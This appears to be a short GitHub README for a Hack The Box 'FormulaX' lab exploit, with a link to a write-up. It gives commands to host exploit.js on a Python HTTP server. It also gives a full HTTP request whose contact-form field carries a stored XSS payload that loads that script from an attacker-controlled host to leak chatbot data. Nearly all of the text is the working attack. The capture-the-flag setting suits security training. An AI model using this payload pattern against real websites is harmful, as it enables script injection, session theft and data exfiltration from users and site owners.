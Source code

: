 # HTB FormulaX

WriteUp: [https://gunzf0x.github.io/pentesting/posts/formulax/](https://gunzf0x.github.io/pentesting/posts/formulax/)

Script for [HTB FormulaX](https://www.hackthebox.com/machines/formulax) machine to leak data from chatbot.

## Usage
Start an `HTTP` listener server with `Python` exposing `exploit.js`:
```shell-session
❯ python3 -m http.server 8000
```
and, in `BurpSuite`, send the request with `XSS` payload:
```http
POST /user/api/contact_us HTTP/1.1
Host: 10.10.11.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 168
Origin: http://10.10.11.6
DNT: 1
Connection: close
Referer: http://10.10.11.6/restricted/contact_us.html
Cookie: authorization=Bearer%20eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NjRkNTVmZjY2Nzg2M2QwYTNmYjk0OTgiLCJpYXQiOjE3MTYzNDQzMzh9.Luv5ZIi-x48Bwf1cTRpJD2KQSwqGOeO-g0jwxtfj-Rk

{
"first_name":"John",
"last_name":"Wick",
"message":"<img src=x onerror=\"with(top)body.appendChild (createElement('script')).src='http://10.10.16.2:8000/exploit.js'\">"
}
```
We should get a message with leaked data.
